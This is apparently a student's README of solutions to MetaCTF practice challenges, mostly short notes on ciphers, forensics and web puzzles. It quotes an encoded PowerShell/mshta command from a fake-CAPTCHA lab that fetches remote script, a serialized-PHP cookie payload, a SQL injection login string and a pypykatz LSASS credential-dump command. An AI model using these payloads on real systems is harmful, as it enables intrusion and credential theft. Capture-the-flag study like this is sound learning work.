

CTFs are amazing!

# Here are my Solutions to MetaCTF challenges 

[Link to the webpage that hosts all my solutions](https://jasraj-jassar.github.io/MetaCTF-Solutions/)

Personal write-ups, notes, and scripts for the publicly available practice challenges on the [MetaCTF](https://metactf.com/) cyber-skills platform.

MetaCTF hosts hands-on Capture-the-Flag (CTF) exercises that cover web exploitation, cryptography, reverse engineering, forensics, OSINT, and binary exploitation. These challenges simulate real-world scenarios and help learners sharpen practical security skills.

> *This repository contains my solutions to the practice challenges hosted by MetaCTF and is **not** officially affiliated with MetaCTF or its founders.*

---

Many thanks to the MetaCTF team for providing high-quality, freely accessible learning content.

---

Solved: (all writeups might not be availble as i did some with friends and didnt to take notes)

| Points | Challenges |
| --- | --- |
| 50 | Port Authority<br>Baby Something<br>.HiddenFiles |
| 100 | Camping Adventures<br>26 Dimensions<br>Architecture Astronaut<br>Anonymoose<br>Cracking the Javashop<br>Stack Smashers<br>runCAPTCHA<br>Slithering Security<br>Admin Portal<br>Abashed Confessions<br>Cooked Books<br>Cookie Crackdown<br>Browser, Wowser<br>Frenzy<br>Caffeine Conundrum<br>Treasure Map<br>Working for Peanuts<br>All About Flags<br>Digging for Answers II<br>64 Types of Candy<br>What's ROTten Into You? |
| 150 | Obfuscated Secrets<br>Direct Login<br>Login Query<br>Obnoxious Offset<br>Lost Luggage<br>Wheel of Mystery<br>Canary in the Bitcoin Mine<br>Key for Me<br>Spider's Curse<br>Rear Hatch<br>better_eval()<br>Till Delete Do Us Part<br>Ms Blue Sky<br>Magical Meta<br>Rainbow Box<br>Bad OpSec<br>Door to Door<br>Shell Game |
| 200 | Simple Sums<br>Xylophone Network Graphics<br>Filesystem Folly<br>Where We JMPing<br>Mimican't<br>Library<br>Open Application<br>Santa's Digital Photo Gallery<br>Shifty XOR<br>Satellite Command<br>NOThing to C Here<br>On the Grid<br>Phone Home |
| 250 | SHA256 Collider<br>How Cool Are You?<br>A Tale of Two Ciphertexts<br>Clock Out |
| 300 | Internet Talk<br>Duality of Key<br>ShaNOISEmir |

---

[**Direct Login](https://compete.metactf.com/289/problems#problem2) - Question** 


Solution:

Go to inspect Elemets and see the script if the password is sucessful it redirects 



window.location.href = "./employee_portal.php";

Meaning adding /employee_portal.php to the URL takes you there. 


---

---


Camping Adventure


Solution Perform Google Image Search.


---

---


Architecture Astronaut


 [this executable](https://metaproblems.com/d36b89698928224c03f29aa2d2cb5544/astronaut) 

Solution - Used GPT - GPT Generated a CODE and Found the Flag

```jsx
import subprocess

# Use the `file` command to determine the architecture of the uploaded file

file_path = "/mnt/data/astronaut"
file_output = subprocess.run(["file", file_path], capture_output=True, text=True)

file_output.stdout.strip()
```

```jsx
Result
'/mnt/data/astronaut: ELF 32-bit LSB executable, Tensilica Xtensa, version 1 (SYSV), statically linked, with debug_info, not stripped'
```

The executable was compiled for the Tensilica Xtensa architecture.

Flag: xtensa


---

---


[**Anonymoose**](https://compete.metactf.com/289/problems#problem29)


[Here's the letter in question.](https://metaproblems.com/0778e85952c806a4f55fb61d12fd8ca0/D34DM0053_Open_Letter_Mental_Health.pdf)

Downloaded the PDF - Viewed its MetaData using the following website

```jsx
[https://www.metadata2go.com/view-metadata](https://www.metadata2go.com/view-metadata)
```


---

---


Wheel of Mystery


Tried allighning the cyper wheel with 3 words  }AB  didnt work

```
R - {
K - Y
P - W
U - O
Y - U
P - W
F - N
C - E
I - D
A - A
K - Y
K - Y
J - C
M - Z
Y - U
Z - T
Z - T
J - C
T - X
```

{YWOUWNE DAY YCZUTTCX

Failed 

Recreating the cypher wheel using METACTF{ becasue this is the format they want the awnser in.

A B C D E F G  H I    J K L  M N O P Q R S T U V W X Y Z {   }

H G { Q N F U  V W L E  Z  Y X P T  K M R } A B  J   I C O S  D 

`RKPUYPFCIAKKJMYZZJT` 

Awnser =

METACTF{WHEELYCOOL}


---

---


[**Cracking The Javashop**](https://compete.metactf.com/289/problems#problem39)


[here](http://host5.metaproblems.com:7510/)

Went to the Script and found the Code 


---

---


Stack Smashers


 [here](http://e62fc65240.chals.mctf.io/).

Need to study about Binary Exploitation and Buffer over flow 

Solution Just added more than 16 char the buffer overflow and got the flag.

Learn more about buffer overflows from the classic paper [Smashing the Stack for Fun and Profit](http://phrack.org/issues/49/14.html) by Aleph One.


---

---


START FROM HERE - [https://compete.metactf.com/289/problems](https://compete.metactf.com/289/problems) 


[Here's](https://metaproblems.com/3bd33118c7a7faa98c23c76ea8aa782e/) the link to the initial infection page

Solution 
Inspect - elements - script - 

```jsx
const textToCopy = "powershell.exe -eC bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A";
```

Decoded the sending link to (USING GPT)

The string you provided appears to be **Base64 encoded**. Let's decode it step-by-step.

### Input:

```
bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A
```

### Decoded (UTF-16LE format — because of the alternating nulls):

```
mshta http://nonmaliciouscaptcha.metaproblems.com/MetaCTF{F4k3_c4pTch@s_ruN_m4lw4r3}
```

- `mshta**` stands for **Microsoft HTML Application Host**.

### In simple terms:

It is a Windows **built-in executable** (`mshta.exe`) used to run **HTML Applications (HTA files)**, which are HTML pages with the ability to execute **scripts (like VBScript or JavaScript)** with full system access — **similar to .exe files**.

### In cybersecurity or CTF context:

- `mshta` is often **used by malware** or **in Capture The Flag (CTF) challenges** to execute remote or local malicious scripts.


---

---


Slithering Security


[here.](https://metaproblems.com/e7d6901a6cde126e0c211b60d216aedd/chal.py)

Solution

```jsx
b"\x54\x57\x56\x30\x59\x55\x4e\x55\x52\x6e\x74\x6b\x4d\x47\x34\x33\x58\x7a\x64\x79\x64\x58\x4d\x33\x58\x32\x4e\x73\x4d\x57\x34\x33\x63\x31\x39\x33\x61\x54\x64\x6f\x58\x33\x4d\x7a\x59\x33\x49\x7a\x4e\x33\x4e\x7a\x63\x33\x4e\x7a\x63\x33\x4e\x39"
```

Was given this string in HEX 


[ From Hex (auto delimiters) ]
[ From Base64 ]

Flag Captured!


---

---


Abashed Confessions


We also have a transcript of the letter [here](https://metaproblems.com/e50c3885d7512ce80354b2583d204365/letter_transcript.txt).


It was just a atbash-cipher and decode it to get the flag. :)


---

---


Solution: 
Just copy the “Times Borrowed” column into CyberChef, then apply the From Decimal operation using a line feed as the separator.


---

---


Solution: 
Using Cokkie Editor extention on my browser, found the flag.


---

---


Solution: 
By the looks of it, its a keyboard shift cypher and theres always a website i know for this.

https://www.dcode.fr/keyboard-shift-cipher


---

---


Stoped  the container to save their resources after I found the flag. - Good Habbits

Solution:


---

---


Solution:
Go to /Sitemap.xml

found a link that is mapped to the main site - not sure if this is professional way of describing sitemap.xml but you got the point


Used that link to attain the flag. :)


---

---


Solution:

Looks like Pigpen cipher


Image credits:
link to the wikipedia = https://wikipedia.org/wiki/Pigpen_cipher

Easy decoding done manually to attain the flag = METACTF{COMICALLYDECODED}


---

---


Solution: 
Looks like base64.
CyberCheif Time :) - i love this tool...


---

---


Solution:

Looks like Rot13 encryption, CyberrrrCheifff Timeeee XD


---

---


Solution:
Using Autopsy tool 

looking at the file names, found the flag.


---

---


Solution:

Using the tool named TestDisk 7.2, (Data Recovery Utility) to recover and then looking inside the FAT32 partition on the disk.

we find the flag as directory names.


---

---


Solution:

there are 24 house listed but the last shows the number 25 (/house.php?house=25)

therefore i tried from 1 to 13 and 13 number webpage link thingi had the flag... Easy


---

---


Solution:

This one is tricky but heres the python code i used to decrypt it

"""The script recovers an unknown 8-byte XOR key using the known PNG header, 
then XORs the entire encrypted file with that key to restore the original image."""

```

from pathlib import Path

enc_path = Path("encrypted.xpng")   # change name if needed
dec_path = Path("decrypted.png")

Known PNG header bytes
png_header = bytes([0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A])

Read encrypted file
data = enc_path.read_bytes()

if len(data) < 8:
    raise SystemExit("File is too small to be a PNG.")

Recover 8-byte XOR key from first 8 bytes
key = bytes([data[i] ^ png_header[i] for i in range(8)])
print("Recovered key bytes:", key)
print("Recovered key (repr):", repr(key))

Decrypt whole file
dec = bytearray(len(data))
for i, c in enumerate(data):
    dec[i] = c ^ key[i % len(key)]

Write decrypted PNG
dec_path.write_bytes(dec)
print("Wrote decrypted PNG to:", dec_path)

```

Found the flag:


---

---


Solution:
Using WireShark to find the file within the packet.


Then using Cyber cheif to convert the hex (make sure png header is there) to attain the flag.


---

---


Solution:

Using a python library

pypykatz lsa minidump lsass.DMP 

and after 45 mins of doing stuff...

heres the flag dont ask how i got it..... ;>

MetaCTF{Rice_shirt_rice_money}


---

---


Solution:

The cookie first will reffer to the file uploded so when converted back to text from base64 its pretty clear that the site use cookies to display files

edit the cookies to request flag.txt from the site 

Also make sure to put s:8 as this is the number of char in "flag.txt"

O:5:"Image":1:{s:4:"path";s:8:"flag.txt";}

use base64 to encrypt our delicious cookies

Tzo1OiJJbWFnZSI6MTp7czo0OiJwYXRoIjtzOjg6ImZsYWcudHh0Ijt9


see the flag in the network response tab:


---

---


Solution:
Dual-tone multi-frequency (DTMF) signaling is a telecommunication signaling system using the voice-frequency band over telephone lines between telephone to send numbers.

the tone reffers to DTMF
Tool used = https://dtmf.netlify.app/


using cybercheif for octal


---

---


Solution:

One-Time Pad (OTP) is an encryption technique that cannot be cracked, but requires the use of a one-time pre-shared key.

Suggested tool = https://toolbox.lotusfa.com/crib_drag/

"We know the group likes classical books, 
with one of the actors recently being into Charles Dickens, 
but we don't have much else to go off of." 
- is a good hint

Grabbing the first paragraph of that book, courtesy of Project Gutenberg,
https://www.gutenberg.org/cache/epub/98/pg98-images.html

Reveals the flag:


---

---


Solution:

SqlInjection Basics Resource: 
https://www.youtube.com/watch?v=2OPVViV-GQk

So using that sql trick

Username = jim404' OR '1'='1


The flag:


---

---


Will continue soon! 

:)
